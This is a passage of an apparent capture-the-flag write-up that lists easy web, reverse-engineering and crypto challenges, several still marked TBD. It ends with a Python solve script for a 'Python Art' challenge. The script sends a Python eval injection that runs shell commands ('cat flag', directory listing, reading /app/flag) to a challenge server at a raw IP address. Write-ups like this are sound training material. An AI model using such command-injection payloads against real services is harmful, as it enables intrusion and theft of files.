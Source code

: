  ```python
3133337
>>> 
 ```

 and the flag is : `flag{3133337}`

---

 ## Challenge - 9: Client Side.
 - Category : Web Security
 - Level : easy
 - Description : Client side password check isn't secure, is it ? The password is your flag. Note: Flag format flag{XXXXXXXXXX}
 - Link: http://35.225.49.73/login/login.html

TBD

---

 ## Challenge - 10: Secret Place.
 - Category : RE
 - Level : easy
 - Description : There is a secret place in every executable.
 - file: [Secret Place](./files/SecretPlace.exe)

TBD

---

 ## Challenge - 11:  Base-listener .
 - Category : Crypto
 - Level : easy
 - Description : Can you decode this weird string BDkPUNzMYDDLsPLP9V4J75dNNCmWb5TXf5kdXNh6CP7zb6mr

---

 ## Challenge - 12: Python Art.
 - Category : Web Security
 - Level : easy
 - Description : This is a simple tool that will help you to draw your text easily.
 - Link: http://18.196.160.18:3333/

```py
import requests

url = "http://18.196.160.18:3333/send"

d = {'name' : 'eval(\'__import__(\"subprocess\").check_output([\"cat\",\"flag\"])\')'}
# d = {'name' : 'eval(\'__import__(\"os\").system(\"cat flag\")\')'}
# d = {'name' : 'eval(\'__import__(\"os\").path.dirname(\"/app/flag\")\')'}
# d = {'name' : 'eval(\'__import__(\"os\").listdir(\".\")\')'}
# d = {'name' : 'eval(\'__import__(\"os\").open(\"/app/flag\",)\')'}

r = requests.post(url, data=d)

print(r.text)
```
   
---